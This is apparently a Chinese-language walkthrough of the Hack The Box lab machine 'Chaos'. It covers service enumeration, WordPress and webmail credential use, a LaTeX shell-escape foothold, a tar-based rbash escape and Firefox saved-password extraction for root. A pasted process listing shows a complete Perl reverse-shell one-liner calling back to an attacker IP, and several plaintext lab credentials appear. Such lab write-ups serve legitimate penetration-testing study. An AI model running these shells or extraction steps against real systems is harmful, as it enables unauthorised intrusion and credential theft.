







简介
这个靶机几乎是全程看writeup打的, 查看加密文章的脑洞有点牵强, 其他内容都很精彩.
tips: 只要是密码都要在各种需要的地方尝试使用一下.
文章目录
- 80端口转imaps
- decrypt进latex服务
- tar逃逸rbash
- firefox保存密码提取
80端口转imaps
1 | $ sudo nmap -sS -sV 10.10.10.120 |

发现http和email两类端口, 其中pop3和imap都是用来收取邮件的, 一般需要凭证, 因此先查看http端口80和10000.
1 | $ dirb http://10.10.10.120 |
dirb只能单线程扫描, 在htb这种网络环境不好的场景中, 速度格外的慢, 于是考虑使用其他目录爆破工具, 如: gobruster.
扫描之后发现wp目录, 访问之后发现是wordpress站点, 其中唯一的一篇文章被加密.
1 | $ wpscan --url http://10.10.10.120/wp/wordpress/ |
脑洞 扫描之后发现一个账户human, 于是考虑爆破human的账号, 用rockyou.txt爆破发现字典太大，无法短时间内爆破成功, 后来查writeup发现这里获取的human是wordpress加密文章的密码.
webmail 加密文章中写着webmail的用户名和密码, 于是用hydra -l ayush -p jiujitsu pop3://10.10.10.120查看用户名和密码是否正确, 这里通过更换协议发现pop3s和imaps可登陆. 于是准备读取邮件内容继续渗透.
decrypt进latex服务
第一步拿到webmail账号后, 开始着手获取邮件(目前唯一的线索), 通过foxmail客户端配置imap服务器端地址, 然后在草稿箱中找到一封为发出的邮件, 根据邮件内容提示和加密脚本提示, 获取到aes的IV参数和密码解密得到真正的邮件内容, 将线索指向一个url, 由于无其他WEB服务, 因此推测此处需要添加host然后通过域名访问.
访问之后获取一个在线生成pdf的服务, 并根据提示找到可用的模版test3
最后根据latex执行perl反弹shell命令获取www-data权限的shell.
tar逃逸rbash
tty 获得reverse shell后, 首先考虑进入tty中. 经测试可通过python进入tty:python -c "import pty;pty.spawn('/bin/bash')"

escape rbash 经过rbash逃逸的一番尝试, 发现存在tar命令可用于逃逸rbash, 逃逸命令tar cf /tmp/a.tar html --checkpoint-action=exec=/bin/bash

提权firefix保存的密码
firefox 一番信息搜集和尝试之后, 在/home/ayush/.mozilla目录中得到保存的密钥1
2# https://github.com/unode/firefox_decrypt.git
$ python firefox_decrypt.py

从firefox中提取到密码之后, 直接用root账号密码尝试登陆系统的linux账号, 成功进入root.

个人日常犯傻流程
进入shell之后, 开始信息收集, 包括: 内核、服务、计划任务、配置、文件.
内核信息 Linux chaos 4.18.0-12-generic #13-Ubuntu SMP Wed Nov 14 15:17:05 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
服务1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54root 295 0.0 0.0 0 0 ? I 13:26 0:00 [kworker/u2:31-events_power_efficient]
root 297 0.0 0.0 0 0 ? I< 13:26 0:00 [kworker/0:1H-kblockd]
root 368 0.0 0.0 0 0 ? I< 13:26 0:00 [raid5wq]
root 417 0.0 0.0 0 0 ? S 13:26 0:00 [jbd2/sda2-8]
root 418 0.0 0.0 0 0 ? I< 13:26 0:00 [ext4-rsv-conver]
root 481 0.0 1.0 131504 10832 ? Ssl 13:26 0:02 /usr/bin/vmtoolsd
root 486 0.0 2.1 79104 22060 ? S<s 13:26 0:00 /lib/systemd/systemd-journald
root 502 0.0 0.0 0 0 ? I< 13:26 0:00 [iscsi_eh]
root 509 0.0 0.1 83324 1608 ? Ss 13:26 0:00 /sbin/lvmetad -f
root 510 0.0 0.0 0 0 ? I< 13:26 0:00 [ib-comp-wq]
root 511 0.0 0.0 0 0 ? I< 13:26 0:00 [ib_mcast]
root 512 0.0 0.0 0 0 ? I< 13:26 0:00 [ib_nl_sa_wq]
root 515 0.0 0.0 0 0 ? I< 13:26 0:00 [rdma_cm]
root 525 0.0 0.5 28660 5600 ? Ss 13:26 0:00 /lib/systemd/systemd-udevd
systemd+ 640 0.0 0.5 111848 5732 ? Ssl 13:26 0:00 /lib/systemd/systemd-timesyncd
systemd+ 758 0.0 0.5 39628 5156 ? Ss 13:26 0:00 /lib/systemd/systemd-networkd
systemd+ 806 0.0 0.7 54264 7180 ? Ss 13:26 0:00 /lib/systemd/systemd-resolved
root 963 0.0 0.2 14788 3008 ? Ss 13:26 0:00 /usr/sbin/cron -f
daemon 973 0.0 0.2 11772 2124 ? Ss 13:26 0:00 /usr/sbin/atd -f
syslog 974 0.0 0.4 240716 4840 ? Ssl 13:26 0:00 /usr/sbin/rsyslogd -n
root 978 0.0 0.9 57212 9364 ? Ss 13:26 0:00 /usr/bin/VGAuthService
message+ 985 0.0 0.4 21520 4176 ? Ss 13:26 0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
root 989 0.0 1.7 45648 17324 ? Ss 13:26 0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
root 993 0.0 0.6 250804 6616 ? Ssl 13:26 0:00 /usr/lib/accountsservice/accounts-daemon
root 1003 0.0 0.5 38056 5404 ? Ss 13:26 0:00 /lib/systemd/systemd-logind
root 1010 0.0 0.3 4476 3264 ? Ss 13:26 0:00 /usr/sbin/dovecot -F
dovecot 1031 0.0 0.1 4052 1096 ? S 13:26 0:00 dovecot/anvil
root 1032 0.0 0.2 4188 2580 ? S 13:26 0:00 dovecot/log
root 1048 0.0 0.4 5464 4144 ? S 13:26 0:00 dovecot/config
root 1060 0.0 2.6 227344 26336 ? Ss 13:26 0:00 /usr/sbin/apache2 -k start
mysql 1172 0.0 19.1 1129132 192832 ? Sl 13:26 0:02 /usr/sbin/mysqld --daemonize --pid-file=/run/mysqld/mysqld.pid
root 1177 0.0 0.6 250140 6440 ? Ssl 13:26 0:00 /usr/lib/policykit-1/polkitd --no-debug
root 1186 0.0 0.1 5784 1684 tty1 Ss+ 13:26 0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
www-data 1352 0.0 3.7 231164 37416 ? S 13:26 0:00 /usr/sbin/apache2 -k start
root 1391 0.0 2.8 45804 29108 ? Ss 13:26 0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf
root 1392 0.0 0.3 40636 3876 ? Ss 13:26 0:00 /usr/lib/postfix/sbin/master -w
postfix 1399 0.0 0.5 41020 5164 ? S 13:26 0:00 qmgr -l -t unix -u
www-data 1746 0.0 3.0 229068 30520 ? S 13:28 0:00 /usr/sbin/apache2 -k start
www-data 1840 0.0 3.0 229060 30400 ? S 13:37 0:00 /usr/sbin/apache2 -k start
www-data 1925 0.0 3.6 231212 36372 ? S 13:40 0:00 /usr/sbin/apache2 -k start
www-data 2025 0.0 3.2 231112 32604 ? S 13:49 0:00 /usr/sbin/apache2 -k start
www-data 2109 0.0 3.4 228952 34320 ? S 13:52 0:00 /usr/sbin/apache2 -k start
www-data 2266 0.0 1.4 228072 14232 ? S 14:09 0:00 /usr/sbin/apache2 -k start
www-data 2268 0.0 1.3 228072 14128 ? S 14:09 0:00 /usr/sbin/apache2 -k start
www-data 2270 0.0 1.8 228136 18944 ? S 14:09 0:00 /usr/sbin/apache2 -k start
www-data 2271 0.0 1.3 227740 13664 ? S 14:09 0:00 /usr/sbin/apache2 -k start
root 2375 0.0 0.0 0 0 ? I 14:28 0:00 [kworker/u2:0-events_power_efficient]
postfix 2615 0.0 0.5 40972 5116 ? S 15:06 0:00 pickup -l -t unix -u -c
www-data 2616 0.0 0.0 2560 812 ? S 15:07 0:00 sh -c cd /var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile/ && /usr/bin/pdflatex --shell-escape 9d75878ba763dc4446a131520284509b.tex
www-data 2617 0.0 2.0 107692 20432 ? S 15:07 0:00 /usr/bin/pdflatex --shell-escape 9d75878ba763dc4446a131520284509b.tex
www-data 2618 0.0 0.0 2560 816 ? S 15:07 0:00 sh -c perl -e 'use Socket;$i="10.10.14.107";$p=2145;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
www-data 2619 0.0 0.0 2560 812 ? S 15:07 0:00 /bin/sh -i
root 2702 1.9 0.0 0 0 ? Z 15:09 0:00 [/usr/share/webm] <defunct>
www-data 2725 0.0 0.2 15984 2700 ? R 15:09 0:00 ps aux
计划任务 no crontab for www-data、 no crontab for ayush
配置 www-data无sudo权限, ayush无sudo权限
文件
1.其他用户账号中可读文件find /home -perm -004 -type f 2>/dev/null, 无文件
- 查看web服务目录下文件的硬编码
grep -ri "pass" /var/www/
在wp-config.php文件中找到mysql数据库账号密码: roundcube / inner[OnCag8, **
在/var/www/roundcube/config目录找到config.inc.php文件中硬编码信息: des_key:ZcDl5ZmsXAPnaqyxJYVRT9C3、mysql: roundcube:inner%5BOnCag8、mysql_db:roundcubemail mysql 利用上一步找的mysql账号密码进入mysql, 查找对应的数据, 在roundcubemail库的rc_users表中找到ayush账号的客户端哈希值RtiFliMyCQJHsnsS** 在wp库的wp_users中找到human的账号


这些信息利用到一半都断掉了, 不知道是思路不对还是有些技术不懂, 暂不深入考究.